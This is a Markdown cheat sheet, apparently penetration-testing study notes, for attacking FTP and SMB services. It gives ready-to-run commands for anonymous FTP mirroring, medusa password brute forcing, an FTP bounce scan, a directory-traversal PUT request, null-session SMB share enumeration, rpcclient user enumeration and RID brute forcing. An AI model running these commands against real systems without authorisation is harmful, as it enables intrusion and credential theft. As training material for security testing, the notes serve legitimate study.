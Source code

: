 # Attacking Common Services

### Getting IPs of web servers
```shell
for i in $(cat subdomainlist);do host $i | grep "has address" | grep $DOMAIN | cut -d" " -f1,4;donev
```

### Server info using Shodan
```shell
for i in $(cat ip-addresses.txt);do shodan host $i;done
```

## FTP

- File Tranfer Protocol, uses TCP Port `21`
- Application layer of the TCP/IP protocol stack
- It is a Clear text protocol and data can be sniffed.
- Trivial File Transfer Protocol (TFTP) is simpler than FTP and performs file transfers between
client and server processes. It does not provide user authentication and other features supported by FTP.
- Dangerous settings include: anonymous login, file upload, create directory, usage of commands
like `STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE`

```shell
# Download a file
get filename
# Download all available files
wget -m --no-passive ftp://anonymous:anonymous@$IP
# Upload file
put local_filename
# When service is using SSL/TLS
openssl s_client -connect $TARGET_IP:21 -starttls ftp
```

- Attacking FTP:

```shell
# Using nmap scripts
sudo nmap -sC -sV -p 21 $TARGET_IP
# Password brute forcing
medusa -u $USERNAME -P $PASSWORD_FILE -h $IP -M ftp
# FTP Bounce Attack
# An FTP bounce attack is a network attack that uses FTP servers
# to deliver outbound traffic to another device on the network. 
# The attacker uses a PORT command to trick the FTP connection 
# into running commands and getting information from a device
# other than the intended server.
nmap -Pn -v -n -p80 -b anonymous:password@$TARGET_IP $INTERNAL_IP
# FTP directory traversal vulnerability
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```


## SMB

- Server Message Block, uses TCP.
- A client-server protocol that regulates access to files and entire directories and other network resources.
- Access rights are defined by ACLs.
- The ACLs are defined based on the shares and do not correspond to the rights assigned locally on the server.


- Samba implements the Common Internet File System (CIFS) network protocol.
- CIFS is a specific version of SMB.
- When SMB commands are transmitted over Samba to an older NetBIOS service,
connection occur over TCP ports `137, 138, and 139`.
- CIFS operates over TCP port `445` exclusively.
- Dangerous settings include: allow guest to connect, insecure default permissions of files,
logon script, magic script etc

```shell
# Accessing shares using null credentials
smbclient -N -L //$TARGET_IP
crackmapexec smb $TARGET_IP -u '' -p '' --shares
netexec smb $TARGET_IP -u '' -p '' -M spider_plus
smbmap -H $TARGET_IP

# Getting data from the shares
netexec smb $TARGET_IP -u $USER -p $PASS --shares --filter-shares READ WRITE
netexec smb $TARGET_IP -u $USER -p $PASS -M spider_plus

# Enumerating using enum4linux
enum4linux-ng.py $TARGET_IP -A  

# Downloading files
smbmap -H $TARGET_IP -u $USER -p $PASS --download $FILE_PATH
```

```shell
# Enumerating using rpcclient
rpcclient -U "" $TARGET_IP
rpcclient $> srvinfo
rpcclient $> enumdomains
rpcclient $> enumdomusers
rpcclient $> queryuser $RID
rpcclient $> querygroup $GID
rpcclient $> querydominfo
rpcclient $> netshareenumall
rpcclient $> netshareenumall $SHARENAME
```

- Attacking SMB:

```shell
# Using nmap scripts
sudo nmap $TARGET_IP -sV -sC -p139,445
nmap --script smb-vuln* -p 139,445 $TARGET_IP
# RID Brute forcing
samrdump.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP
lookupsid.py guest@$TARGET_IP -no-pass
netexec smb $TARGET_IP -u guest -p '' --rid-brute
```